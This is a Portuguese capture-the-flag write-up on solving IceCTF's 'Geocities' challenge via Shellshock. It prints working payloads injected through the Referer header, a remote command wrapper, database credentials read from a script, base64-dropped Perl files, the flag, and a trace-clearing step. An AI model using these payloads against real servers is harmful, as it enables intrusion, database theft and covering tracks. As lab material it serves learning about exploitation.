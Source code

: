 #Geocities
O nome do desafio já indicava que deveria ser uma falha antiga, e logo achamos que a página era vulnerável a shellshock
Segue o passo a passo

1) listar os arquivos remotos
```
wget --header "Referer: () { :; };echo; ls" "http://geocities.vuln.icec.tf" -O-

...
log.html
get_posts.pl
img
index.cgi
...
```

2) Verificada a vulnerabilidade, vamos agilizar o processo, criando uma função pra explorar a vulnerabilidade com mais facilidade
```
geo (){ wget -q --header "Referer: () { :; };echo; $*" "http://geocities.vuln.icec.tf" -O-; }
```

3) O arquivo get_posts.pl parece ser o que precisamos, dado o nome. Vamos verificar seu conteúdo
```
geo cat get_posts.pl
#!/usr/bin/perl

use strict;
use DBI;

my $dbh = DBI->connect(
    "dbi:mysql:dbname=geocities;host=icectf_mariadb",
    "geocities",
    "geocities",
    { RaiseError => 1 },
) or die $DBI::errstr;

my $sth = $dbh->prepare("SELECT * from Posts ORDER BY post_date DESC");
$sth->execute();

my $row;
while ($row = $sth->fetchrow_arrayref()) {
    print "@$row[1];@$row[2];@$row[3]\n";
}

$sth->finish();
$dbh->disconnect();
```
É um script em perl que conversa com o db local, rodando mariadb, e busca os posts.
A forma mais ágil que considerei foi criar copias desse arquivo para executar os comandos que eu queria.

então fiz o seguinte:
```
xpl=$(geo cat get_posts.pl | sed 's/my $sth.*/my $sth = $dbh->prepare("show tables;")\;/;s/print.*/print join(", ", @\$row), "\\n"\;/' | base64 -w0)
```
Essa linha basicamente substitui os comandos que o arquivo get_posts.pl descreve, para me mostrar a saída do comando sql "show tables" em uma saída legível.
Ao mesmo tempo, joguei em um pipe para encodar em base64 e armazenei em uma variável para facilitar a criação desse arquivo remotamente:

```
geo "echo $xpl | base64 -d > /tmp/318br.pl"
geo perl /tmp/318br.pl
47a6fd2ca39d2b0d6eea1c30008dd889
Posts
```

Pela cara, parece óbvio que a tabela que precisamos é essa 47a6fd2ca39d2b0d6eea1c30008dd889.
Então repetimos a edição do arquivo, para inserir o comando "select * from 47a6fd2ca39d2b0d6eea1c30008dd889"

```
xpl=$(geo cat get_posts.pl | sed 's/my $sth.*/my $sth = $dbh->prepare("select * from 47a6fd2ca39d2b0d6eea1c30008dd889;")\;/;s/print.*/print join(", ", @\$row), "\\n"\;/' | base64 -w0)
```

e repetimos a execução:

```
geo "echo $xpl | base64 -d > /tmp/318br.pl"
geo perl /tmp/318br.pl
1, IceCTF{7h3_g0s_WEr3_5UpeR_wE1Rd_mY_3ye5_HUr7}
```
depois disso, vamos apagar nossos rastros!

geo "rm -f /tmp/318br.pl"
